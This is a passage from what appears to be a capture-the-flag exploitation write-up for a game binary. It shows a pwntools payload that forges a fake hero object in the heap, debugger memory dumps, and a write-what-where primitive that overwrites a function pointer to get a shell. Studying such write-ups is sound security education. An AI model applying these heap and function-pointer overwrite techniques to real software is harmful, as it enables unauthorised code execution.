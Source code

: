 
Here the second vulnerability.

  

It is possible to use the index "0" and then this will take the 10th address from the spells as a hero to be revived. So we can create a 10th spell using an address in the heap that we control such as the heroes name. So using the rename option, create a fake hero object like this:

  

> fake_hero=(4*p64(0x0))+p64(dragon_data)+p64(hero_pointer)+p64(0xb)+p64(0x19)+p64(0xfff)+p64(leak+0x38)+p64(0xd)+p64(0xdeadbeef)+p64(0xdeadbeef)

  

Remember that we can't use special action on the Druid's revival turn. But since it is possible to control the entire fake hero object, we can use the 2nd QWORD on the fake hero's object (pointer to the name) and point to somewhere else.

  

    wdb> x/20w 0x00000000006b6d00
    
    0x6b6d00: 0x00607bf8 0x00000000 **0x006b6e20** 0x00000000
    
    0x6b6d10: 0x0000000a 0x00000000 0x00000019 0x00000000
    
    0x6b6d20: 0x00000046 0x00000000 0x006b6d38 0x00000000
    
    0x6b6d30: 0x0000000d 0x00000000 0x6973754d 0x206c6163
    
    0x6b6d40: 0x72616843 0x0000006d 0x006b6dd0 0x00000000
    
    wdb> x/10w **0x006b6e20**
    
    0x6b6e20: *0x64726142* 0x00000000 0x00000000 0x00000000
    
    0x6b6e30: 0x00000000 0x00000000 0x00000000 0x00000000
    
    0x6b6e40: 0x00000000 0x00000000
    

That give us the **write > what > where exploitation** primitive.

We can set the second QWORD (pointer to the name) on the fake hero's object pointing to any hero's pointer. And then overwrite the special action's function while renaming it during the Druid's revival turn, since it is not possible to reach the fake hero during a normal turn.

  

    

    > p.sendline(p64(dragon_data))

  

That will overwrite the value 0x607bf8 (Bard's data) to 0x607b98 (Dragon's data) in the Bard's object. And then we can use the Bard's special action now replaced to the Dragon's special action and get the shell.

  

    | ----
    
    _.--.
    
    _.-'_:-'||
    